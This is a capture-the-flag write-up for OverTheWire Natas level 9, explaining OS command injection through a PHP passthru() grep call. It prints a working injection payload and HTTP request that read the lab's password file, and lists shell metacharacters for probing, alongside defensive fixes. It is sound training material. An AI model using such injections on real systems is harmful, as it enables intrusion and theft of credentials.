


# Natas Level 9 → 10

**Vulnerability:** OS Command Injection via Unsanitized User Input
**Difficulty:** Easy
**Tools Used:** Browser, Source Code Review
**OWASP Category:** A03 – Injection

---

## What the level gives you

The application provides a search functionality that allows users to search for words inside a dictionary file.

A source code link is available and reveals how user input is processed before being passed to the operating system.

The objective is to retrieve the password for the next level.

---

## Source code analysis

The vulnerable code is:

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```

### Analysis

```php
$key = $_REQUEST["needle"];
```

User-controlled input is accepted directly from the request.

No validation, filtering, escaping, or sanitization is performed.

```php
passthru("grep -i $key dictionary.txt");
```

The application constructs an operating system command using attacker-controlled input.

The value of `$key` is inserted directly into the command string before execution.

This creates a classic OS Command Injection vulnerability.

The developer assumes the user will only supply search terms, but an attacker can inject shell metacharacters to terminate the intended command and execute arbitrary commands.

---

## Approach

The source code immediately revealed that user input was reaching a `passthru()` function.

Whenever user-controlled data is inserted into a shell command without sanitization, command injection becomes a likely attack vector.

I first examined how the command was constructed:

```bash
grep -i USER_INPUT dictionary.txt
```

Since the application was invoking a shell command, I considered whether shell metacharacters such as `;`, `&&`, or `|` could break out of the intended grep operation.

The challenge hint from previous levels suggested that passwords are stored in:

```text
/etc/natas_webpass/
```

My goal became executing a second command to read the password file directly.

The turning point was realizing that the semicolon character could terminate the grep command and start a new one.

---

## Exploitation

### Original command

If a user searches for:

```text
test
```

The application executes:

```bash
grep -i test dictionary.txt
```

### Injected payload

Input supplied:

```text
; cat /etc/natas_webpass/natas10 #
```

### Resulting command

```bash
grep -i ; cat /etc/natas_webpass/natas10 # dictionary.txt
```

#### Command breakdown

```bash
grep -i
```

Terminates prematurely.

```bash
cat /etc/natas_webpass/natas10
```

Reads the password file.

```bash
# dictionary.txt
```

Comments out the remainder of the original command.

### HTTP Request

```http
GET /?needle=%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas10+%23 HTTP/1.1
Host: natas9.natas.labs.overthewire.org
Authorization: Basic <credentials>
```

### Response

```text
<password for natas10>
```

The application executes the injected command and returns the contents of the password file.

---

## Screenshot

### Vulnerable passthru() implementation



### Successful command injection



---

## Real-world relevance

OS Command Injection is one of the most severe vulnerabilities in web applications because it frequently leads to Remote Code Execution (RCE).

The vulnerability belongs to OWASP A03: Injection and has been responsible for countless real-world compromises involving network appliances, web management panels, IoT devices, backup systems, and custom enterprise applications.

Attackers commonly leverage command injection to:

- Read sensitive files
- Dump credentials
- Execute arbitrary programs
- Establish reverse shells
- Gain persistent access

In professional VAPT engagements, command injection findings are typically classified as High or Critical severity due to their direct impact on system confidentiality, integrity, and availability.

---

## Defender's perspective

Applications should never construct shell commands using raw user input.

Instead of:

```php
passthru("grep -i $key dictionary.txt");
```

developers should avoid shell execution entirely and use native language functions whenever possible.

If command execution is unavoidable, user input must be strictly validated and escaped using secure APIs such as:

```php
escapeshellarg()
escapeshellcmd()
```

Additionally, applications should run with least-privileged service accounts so that successful command injection cannot access sensitive system resources.

A WAF may detect common command injection payloads, but secure coding practices remain the primary defense.

---

## What I'd do differently

If source code access had not been available, I would have systematically tested shell metacharacters such as:

```text
;
&&
|
||
$
``
$()
```

to identify whether user input was reaching an operating system command.

Once command execution was confirmed, I would enumerate the environment before targeting specific files.